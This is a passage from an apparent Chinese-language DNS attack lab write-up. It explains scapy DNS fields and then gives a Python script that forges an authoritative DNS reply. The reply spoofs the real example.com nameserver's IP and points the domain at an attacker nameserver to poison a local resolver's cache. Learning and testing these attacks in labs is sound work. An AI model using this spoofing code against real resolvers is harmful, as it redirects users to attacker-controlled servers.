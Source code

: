 其中scapy的`DNS`函数参数解析：

- id：Query ID

- qr：0表示查询报文，1表示响应报文
- qd：问题部分
- an：回答部分
- ns：管理机构部分
- ar：附加信息部分

wireshark抓包，抓到的包和之前`nslookup`发送的包格式相同。并且由于task1测试的时候local dns中已经有了www.example.com对应ip地址的缓存，所以local dns很快就发送了DNS response包，说明成功构造了dns request：

![image-20220602161238707](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012337323.png)



## Task 3: Spoof DNS Replies

由于目标是example.com，所以需要伪造来自这个域名的nameserver的回复。

首先通过`dig example.com ns`命令找到example.com的合法nameserver的IP地址：

![image-20220602163227561](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012337972.png)

从中可以看到，查询到能解析`example.com`的授权服务器是`a.iana-servers.net`和`b.iana-servers.net`，他们的ip地址都是`199.43.135.53`。

用python构造DNS response。task3.py：

```python
from scapy.all import *

name = 'www.example.com'
domain = 'example.com'
ns = 'ns.attacker32.com'	# attacker nameserver

Qdsec = DNSQR(qname=name)
Anssec = DNSRR(rrname=name, type='A', rdata='1.2.3.4', ttl=259200)
NSsec = DNSRR(rrname=domain, type='NS', rdata=ns, ttl=259200)
# aa：表示授权回答（authoritative answer）

dns = DNS(id=0xAAAA, aa=1, rd=1, qr=1, qdcount=1, ancount=1, nscount=1, arcount=0, qd=Qdsec, an=Anssec, ns=NSsec)	
# 伪造源地址是example.com的合法nameserver的IP地址

ip = IP(dst='10.9.0.53', src='199.43.135.53')
# dport是local dns设置的固定端口号33333，sport是DNS server的通信端口53

udp = UDP(dport=33333, sport=53, chksum=0)	

reply = ip/udp/dns

send(reply)
```
